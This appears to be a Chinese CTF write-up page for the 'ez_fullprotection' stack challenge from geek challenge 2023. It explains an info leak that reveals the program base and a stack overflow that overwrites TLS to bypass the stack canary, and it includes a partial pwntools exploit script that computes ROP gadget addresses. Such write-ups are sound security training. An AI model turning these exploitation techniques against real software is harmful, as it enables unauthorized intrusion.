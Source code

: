 # Stack Challenge


该文用于收录一些比赛时不会的栈题目，仅记录一些做题思路。

 

## geek challenge 2023

### ez_fullprotection

首先在game 中输入 字符 跳过scanf 输入，这样后面printf 就会泄露程序基址，后面创建的子进程函数中存在栈溢出，输入一长串字符串即可劫持TLS绕过canary。

![image-20231130170057752](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501050001078.png)

```py
from pwn import*
context.arch='amd64'
context.log_level='debug'
#p=remote("pwn.node.game.sycsec.com",31009)
p=process('./ez_fullprotection')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))

def mydbg():
    gdb.attach(p,"b *$rebase(0x101a)")
    pause()

ru("Tell me your name: ")
sl("aaaa")
#mydbg()
ru("Enter your guess : ")
s("a")
ru("but you entered ")
elf_base=int(rn(14),10)-0x001240
pop_rdi=elf_base+0x00000000000016e3
pop_rsi=elf_base+0x00000000000016e1
pop_addr=elf_base+0x16DA
mov_addr=elf_base+0x16C0
puts_plt=0x001150+elf_base
puts_got=elf_base+0x3F60 
gets_plt=elf_base+0x11C0
bss=elf_base+0x04e08
pop_rsp=elf_base+0x00000000000016dd
ret=elf_base+0x000000000000101a

ru("Don't lose heart")
s("\n")

lg("elf_base")
ru("This should work.\n")
ru("> ")

```